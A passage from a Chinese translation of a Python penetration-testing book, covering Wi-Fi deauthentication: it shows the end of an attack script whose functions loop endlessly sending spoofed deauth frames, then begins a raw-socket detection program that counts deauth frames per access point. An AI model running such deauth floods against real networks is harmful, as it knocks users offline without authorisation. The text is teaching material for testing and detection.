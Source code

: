 在最后一行，`sendp(frame,iface=interface, count= 1000, inter= .1)`，`count`给出发送的数据包总数，`inter`表示两个数据包之间的间隔：

```py
def for_ap(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

def for_client(frame,interface):
  while True:
    sendp(frame, iface=interface, count=20, inter=.001)

if __name__ == '__main__':
  main()
```

`deauth.py`程序的输出如下：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/691a0ae7-cfca-4635-b748-94d0223e6e3d.jpg)

这种攻击的目的不仅是执行去认证攻击，还要检查受害者的安全系统。IDS 应该有能力检测去认证攻击。到目前为止，还没有避免攻击的方法，但可以检测到攻击。

# 检测 deauth 攻击

在本节中，我们将讨论如何检测去认证攻击。这类似于一个无线 IDS，它检测去认证攻击。在这个程序中，我们将找出哪些接入点收到去认证帧以及数量。我们将在这里使用原始套接字来检测攻击。

让我们讨论`deauth_ids.py`程序。确保监视器打开；否则，程序会报错：

+   导入必要的模块和库：

```py
      import socket 
      import Queue
      from threading import Thread
      from collections import Counter
```

+   队列和计数器将在以后使用：

```py
      q1 = Queue.Queue()
      co = Counter()
```

+   以下代码创建并绑定原始套接字到`mon0`：

```py
      try:
        sniff = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, 3)
        sniff.bind(("mon0", 0x0003))
      except Exception as e :
        print e 
```

+   以下函数 IDs 接收去认证帧，提取 BSSID，并将其放入全局队列中：

```py
      def ids():
        global q1
        while True :
          fm1 = sniff.recvfrom(6000)
          fm= fm1[0]
          radio_tap_lenght = ord(fm[2])
          if ord(fm[radio_tap_lenght]) == 192:
      bssid1 = fm[radio_tap_lenght+4+6+6 :radio_tap_lenght+4+6+6+6]
      bssid = ':'.join('%02x' % ord(b) for b in bssid1)
      q1.put(bssid)
```

